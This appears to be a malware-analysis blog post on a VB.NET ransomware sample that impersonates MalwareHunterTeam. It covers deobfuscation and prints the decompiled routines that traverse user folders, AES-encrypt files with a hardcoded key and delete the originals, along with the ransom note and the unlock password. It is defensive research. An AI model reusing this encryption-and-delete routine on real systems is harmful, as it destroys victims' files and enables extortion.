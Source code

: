 # MalwareHunterTeam Ransomware

* [Version at ANY.RUN](https://app.any.run/tasks/d4db56ce-d243-4850-a479-93a9c9dcdb4a)
* [VT Link](https://www.virustotal.com/gui/file/9012a3958219ec427b9b447dffca591b19cb4097f3bb89acc1389c4da59f6dfe)
* [VT Link Deobfuscation](https://www.virustotal.com/gui/file/9012a3958219ec427b9b447dffca591b19cb4097f3bb89acc1389c4da59f6dfe)


<blockquote class="twitter-tweet" data-media-max-width="960"><p lang="zxx" dir="ltr"><a href="https://t.co/j4Ty5K2wUi">pic.twitter.com/j4Ty5K2wUi</a></p>&mdash; petikvx (@petikvx) <a href="https://twitter.com/petikvx/status/1770543961318273431?ref_src=twsrc%5Etfw">March 20, 2024</a></blockquote> <script async src="https://platform.twitter.com/widgets.js" charset="utf-8"></script>

## File Informations

This ransomware is written in VB.NET and is protected with the .NET Reactor tool.

The malware makes it appear as if it was authored by our colleagues MalwareHunterteam ([https://malwarehunterteam.com/](https://malwarehunterteam.com) - [https://twitter.com/malwrhunterteam](https://twitter.com/malwrhunterteam)), but it is not the case.

We will thus use [NETReactorSlayer](https://github.com/SychicBoy/NETReactorSlayer) to deprotect it.

Here are the results before and after with [Detect-It-Easy](https://github.com/horsicq/Detect-It-Easy)

```
petik@win:test$ diec MalwareHunterTeam.exe
/home/petik/test/MalwareHunterTeam.exe:
PE32
    Protector: .NET Reactor(4.8-4.9)[-]
    Library: .NET(v4.0.30319)[-]
    Compiler: VB.NET(-)[-]
    Linker: Microsoft Linker(6.0)[GUI32]

petik@win:test$ diec MalwareHunterTeam_Slayed.exe:
PE32
    Library: .NET(v4.0.30319)[-]
    Compiler: VB.NET(-)[-]
    Linker: Microsoft Linker(6.0)[GUI32]
```

We now have a better understanding of the code :

![deobfuscation](/images/mhunter/deobfuscation.png)

## Operation of the malware

The malware will scan the following folders:
Personal
Desktop
Downloads

```
Private Sub Form1_Load(sender As Object, e As EventArgs)
	Try
		Me.method_0(Environment.GetFolderPath(Environment.SpecialFolder.Personal))
	Catch ex As Exception
	End Try
	Try
		Me.method_0(Environment.GetFolderPath(Environment.SpecialFolder.Desktop))
	Catch ex2 As Exception
	End Try
	Try
		Me.method_0(Environment.GetEnvironmentVariable("UserProfile") + "\Downloads")
	Catch ex3 As Exception
	End Try
	Class2.Class3_0.Middleman.Show()
End Sub
```

It will look for files in the directory except those with the following extensions in order not to disrupt the system :
".exe", ".dll", ".scr", ".com", ".pif", ".ini", ".log", ".sys", ".drv", ".xml", ".dat", ".reg"

``` 
Private Sub method_0(string_0 As String)
	For Each string_ As String In Directory.GetFiles(string_0)
		If Not Me.method_1(string_) Then
			Me.method_2(string_)
		End If
	Next
	For Each string_2 As String In Directory.GetDirectories(string_0)
		Me.method_0(string_2)
	Next
End Sub

Private Function method_1(string_0 As String) As Boolean
	Dim source As IEnumerable(Of String) = New String() { Form1.newExtension, ".exe", ".dll", ".scr", ".com", ".pif", ".ini", ".log", ".sys", ".drv", ".xml", ".dat", ".reg" }
	Dim extension As String = Path.GetExtension(string_0)
	Return source.Contains(extension)
End Function
```

Then we have :

```
Private Sub method_2(string_0 As String)
	Try
		If New FileInfo(string_0).Length <= 104857600L Then
			Dim path As String = string_0 + Form1.newExtension
			Using aes As Aes = Aes.Create()
				aes.Key = Form1.byte_0
				aes.IV = Form1.byte_1
				Using fileStream As FileStream = New FileStream(string_0, FileMode.Open)
					Using fileStream2 As FileStream = New FileStream(path, FileMode.Create)
						Using cryptoTransform As ICryptoTransform = aes.CreateEncryptor(aes.Key, aes.IV)
							Using cryptoStream As CryptoStream = New CryptoStream(fileStream2, cryptoTransform, CryptoStreamMode.Write)
								fileStream.CopyTo(cryptoStream)
							End Using
						End Using
					End Using
				End Using
			End Using
			File.Delete(string_0)
		End If
	Catch ex As Exception
	End Try
End Sub

' Token: 0x04000010 RID: 16
Public Shared newExtension As String = ".malwarehunterteam"

' Token: 0x04000011 RID: 17
Private Shared byte_0 As Byte() = New Byte() {1, 2, 3, 4, 5, 6, 7, 8, 9, 10, 11, 12, 13, 14, 15, 16, 17, 18, 19, 20, 21, 22, 23, 24, 25, 26, 27, 28, 29, 30, 31, 32}

' Token: 0x04000012 RID: 18
Private Shared byte_1 As Byte() = New Byte() {33, 34, 35, 36, 37, 38, 39, 40, 41, 42, 43, 44, 45, 46, 47, 48}

```

This code performs the following operations:

1.  Checks if the size of the file specified by the path `string_0` is less than or equal to 104857600 bytes (100 MB).
2.  If the file size is less than or equal to this limit, the code:
    -   Concatenates an extension specified by `Form1.newExtension` to `string_0` to form a new path `path`. (file.jpg => file.jpg.malwarehunterteam)
    -   Initializes an AES object for symmetric encryption.
    -   Configures the key and initialization vector (IV) for AES using values specified by `Form1.byte_0` and `Form1.byte_1`.
    -   Opens a read stream on the source file specified by `string_0`.
    -   Opens a write stream on the destination file specified by `path`.
    -   Creates an encryption transformer using the AES key and IV.
    -   Creates a crypto stream for writing encrypted data to the destination file.
    -   Copies data from the read stream to the crypto stream to encrypt it.
    -   Deletes the source file after encryption.
3.  The `Catch` block catches any exceptions and ignores them.

In summary, this code encrypts a file using AES if its size is less than or equal to 100 MB, using specified key and IV, and then deletes the source file once encryption is complete.


It displays the visual at the end :

![visual](/images/mhunter/visual.png)

This will create a file on the Desktop named readme_encrypted.txt with the following text:
Dear user, your files are encrypted. Contact @malwarehuntrteam on Twitter/X.

![readme_encrypted](/images/mhunter/readme_encrypted.png)

A savoir que la bonne adresse de nos confrères est bien : [https://twitter.com/malwrhunterteam](https://twitter.com/malwrhunterteam)

This window features a text area and a button: **Decrypt Me!**

One might assume there is some sort of password to decrypt the files.

Indeed, we find the password here :

```
Private Sub method_2(sender As Object, e As EventArgs)
	If Operators.CompareString(Me.TextBox1.Text, "paswword123", False) = 0 Then
		MyBase.Hide()
		Class2.Class3_0.Form2.Show()
		Return
	End If
	Me.TextBox1.Text = ""
End Sub
```

